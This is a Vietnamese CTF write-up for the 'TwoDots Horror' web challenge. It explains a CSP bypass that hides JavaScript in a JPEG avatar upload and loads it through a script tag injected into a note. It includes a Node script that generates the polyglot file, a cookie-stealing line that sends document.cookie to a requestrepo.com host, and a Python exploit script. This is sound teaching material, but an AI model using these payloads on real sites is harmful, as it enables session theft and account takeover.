



# TwoDots Horror

Bài này là một bài mà ý tưởng chính rất dễ nảy ra nhưng để thực hiện nó mình đã gặp rất nhiều khó khăn 🤕

Trước giờ mình cũng rất lười làm các bài client side vì thường các con bot sẽ sử dụng headless chrome nên mình thấy nó rất khó để biết xem chuyện gì đã xảy ra, nhưng từ bài này mình thấy dễ chịu hơn hẳn 🤣

## Tổng quan
Ở bài này mình sẽ giải ở localhost cho dễ rồi mới đưa payload lên server.

Nói sơ qua thì đây là một trang web cho phép người dùng nhập note, những note nhập được không hiển thị ngay mà chỉ có bot mới xem được thôi (do đoạn check `req.ip`). 

```js
router.get('/review', async (req, res, next) => {
	if(req.ip != '127.0.0.1') return res.redirect('/');

	return db.getPosts(0)
		.then(feed => {
			res.render('review.html', { feed });
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});
```

Ngoài ra webapp còn cho người dùng upload avatar.

Mình còn thấy người ta set CSP như sau
```js
app.use(function(req, res, next) {
	res.setHeader("Content-Security-Policy", "default-src 'self'; object-src 'none'; style-src 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com;")
	next();
});
```

Sử dụng [web](https://csp-evaluator.withgoogle.com/) để kiểm tra thì thấy như sau


Ở đây có tính năng upload file avatar nên mình nảy ra ý tưởng giấu JavaScript vào trong ảnh và upload lên.

Phần upload ảnh được handle như sau. 
```js
async uploadImage(file) {
		return new Promise(async (resolve, reject) => {
			if(file == undefined) return reject(new Error("Please select a file to upload!"));
			try{
				if (!isJpg(file.data)) return reject(new Error("Please upload a valid JPEG image!"));
				const dimensions = sizeOf(file.data);
				if(!(dimensions.width >= 120 && dimensions.height >= 120)) {
					return reject(new Error("Image size must be at least 120x120!"));
				}
				uploadPath = path.join(__dirname, '/../uploads', file.md5);
				file.mv(uploadPath, (err) => {
					if (err) return reject(err);
				});
				return resolve(file.md5);
			}catch (e){
				console.log(e);
				reject(e);
			}
			
		});
	}
```

Tóm gọn lại thì file được upload lên nên là file jpg. Mình thử search "hide js in jpg" thì thấy được bài viết [này](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjSmvSjp-3-AhWHf94KHUkBD_EQFnoECAcQAQ&url=https%3A%2F%2Fmedium.com%2F%40codedbrain%2Fhiding-js-in-a-jpeg-header-454386f9e20&usg=AOvVaw2UoKk7PF-7yR6Mq_BD-c3K).

Trước tiên mình cần tìm một chỗ nào đó để HTML injection. Thì do bot chỉ tới `/review` thôi nên mình xem trong file `review.html` thì thấy `{{ post.content|safe }}` với `post.content` là note mình gửi lên và filter `safe` của nunjuck template cho phép HTML injection (https://mozilla.github.io/nunjucks/templating.html#safe)

Và thấy nó rất khả thi, nhưng thử hoài không được. 

Một phần là do không thấy được behavior của browser nên khá khó chịu. 

Sau đó mình nảy ra một ý.

Mình sửa `req.ip != '127.0.0.1'` thành `req.query.ip != '127.0.0.1'` để mình có thể xem được luôn để dễ dàng thấy được browser đang làm gì.


Và mình cũng comment luôn đoạn gọi bot vào xem note và mình sẽ tự vào xem note bằng `http://127.0.0.1?ip=127.0.0.1`.
```js
router.post('/api/submit', AuthMiddleware, async (req, res) => {
	return db.getUser(req.data.username)
		.then(user => {
			if (user === undefined) return res.redirect('/'); 
			const { content } = req.body;
			if(content){
				twoDots = content.match(/\./g);
				if(twoDots == null || twoDots.length != 2){
					return res.status(403).send(response('Your story must contain two sentences! We call it TwoDots Horror!'));
				}
				return db.addPost(user.username, content)
					.then(() => {
						// bot.purgeData(db);
						res.send(response('Your submission is awaiting approval by Admin!'));
					});
			}
			return res.status(403).send(response('Please write your story first!'));
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});
```

Hai chỉnh sửa của mình ở trên giúp mình xem được payload của mình có hoạt động không một cách dễ dàng. Thực ra còn một lý do nữa là do `Dockerfile` người ta không chạy được phần browser do thiếu thư viện mà mình không biết cài 🤣

Thì mình thấy payload của mình bị như sau


Là do file của mình như thế này



Đáng ra 4 dấu chấm hỏi kia phải là `ÿØÿà` như này thì mới hoạt động như hướng dẫn được 😢

Sau khi stuck mồi hồi lâu thì mình tìm writeup và lướt tìm các link reference (như vậy có tính là coi writeup không 🤣) thì thấy link . Lướt qua thì thấy cũng tương tự link medium trước nhưng có nói thêm về `charset="ISO-8859-1"`. Thực ra cái này mình cũng đã nghĩ đến nhưng mà lúc search thì không thấy chỗ nào viết là có `charset` attribute nên không làm được.

Tóm lại lý do là người ta dùng mặc định là UTF-8 mà các byte đó không tuân theo UTF-8 nên mình phải đổi charset cho phù hợp.

Sau khi thêm vào thì payload đã hoạt động được.

Cách làm của mình như sau:
- Lấy đại một file ảnh jpg nhỏ.
- Sau đó sửa lại source sinh payload ở trên link medium để thỏa mãn.
```js
const fs = require('fs');

var a = fs.readFileSync('aa.jpg');
var b = a.toString("hex");
var c = b.substr(0, 40);

var e = `*/=1;window.open('http://jwki2d2f.requestrepo.com?' + document.cookie)/*`.split("").map(function(e) {return e.charCodeAt(0).toString(16)}).join("");

var f = b.substr(40, b.length);
var d = Array(12044).fill("00").join(""); // 0x2f2a - 16 - len(e), e ở dưới
var d = Array(0x2F2A - 16 - e.length / 2).fill("00").join(""); // 0x2f2a - 16 - len(e) / 2       //  chia 2 vì e đang ở dạng hex

var g = c + d + e + f;

var h = new Buffer(g, "hex");
var i = fs.writeFileSync("payload.txt", h);
```
Payload chính để XSS là `window.open('http://jwki2d2f.requestrepo.com?' + document.cookie)`. Không thể dùng `fetch()` vì sẽ vi phạm CSP.
- Sử dụng hexeditor để sửa lại một vài byte của file `payload.txt` sinh ra.
- Sử dụng code dưới để khai thác.  

```py
import requests

URL = '[instance URL]'

r = requests.post(URL + '/api/register', json = {'username': 'hehe', 'password': 'hehe'})
r = requests.post(URL + '/api/login', json = {'username': 'hehe', 'password': 'hehe'})
cookie = {'session': r.headers['Set-Cookie'].split(';')[0].split('=')[1]}
r = requests.post(URL + '/api/upload', files = {'avatarFile': open('payload.txt', 'rb')}, cookies = cookie)
r = requests.post(URL + '/api/submit', json = {'content': '<script charset="ISO-8859-1" src=/api/avatar/hehe>..</script>'}, cookies = cookie)
```

Đoạn code đó đầu tiên sẽ đăng ký với `username`, `password` đều là `hehe`. Sau đó đăng nhập để lấy cookie, rồi upload file `payload.txt` lên và gửi note với nội dung `<script charset="ISO-8859-1" src=/api/avatar/hehe>..</script>`.

Flag 🚩
